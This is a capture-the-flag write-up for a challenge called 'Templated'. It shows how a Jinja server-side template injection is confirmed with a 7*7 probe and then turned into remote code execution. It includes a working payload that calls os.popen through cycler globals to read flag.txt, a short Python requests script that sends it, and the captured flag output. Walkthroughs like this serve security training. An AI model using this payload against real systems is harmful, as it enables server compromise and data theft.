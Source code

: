 # Templated
![image](https://github.com/TaiPhung217/CTF_writeup/assets/102504154/aba87051-5004-4d60-890d-df0c00ff4308)

## Desciption
Can you exploit this simple mistake?

## Solution
![image](https://github.com/TaiPhung217/CTF_writeup/assets/102504154/a12def89-9cbe-403c-86b0-93b5065d84d1)
From the interface, it can be seen that the web application uses Jinja.

My idea is to perform Remote Code Execution (RCE) using the common Server-Side Template Injection (SSTI) vulnerability in Jinja.

When accessing a non-existent path, the web application responds with a notification.

![image](https://github.com/TaiPhung217/CTF_writeup/assets/102504154/7f440ad8-9a43-4645-b3fc-60ad1601d18e)

I tried the payload "7*7" and received the result "49".

![image](https://github.com/TaiPhung217/CTF_writeup/assets/102504154/b4135f45-d96f-4707-85dd-82687b1eef52)

you can refer to some commonly used payloads for Jinja SSTI vulnerabilities [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md):

My payload: `http://143.110.169.131:31927/{{ cycler.__init__.__globals__.os.popen('cat flag.txt').read() }}`

Script python:
```python=
import requests

url = "http://143.110.169.131:31927/"

payload = "{{ cycler.__init__.__globals__.os.popen('cat flag.txt').read() }}"

r = requests.get(url + payload)

print(r.text)
```
Output:
```
┌──(taiwhis㉿kali)-[~]
└─$ python 6.py

<h1>Error 404</h1>
<p>The page '<str>HTB{t3mpl4t3s_4r3_m0r3_p0w3rfu1_th4n_u_th1nk!}
</str>' could not be found</p>
```

![image](https://github.com/TaiPhung217/CTF_writeup/assets/102504154/9f7a11c9-b246-4b99-8c17-b8f7ed3950b1)

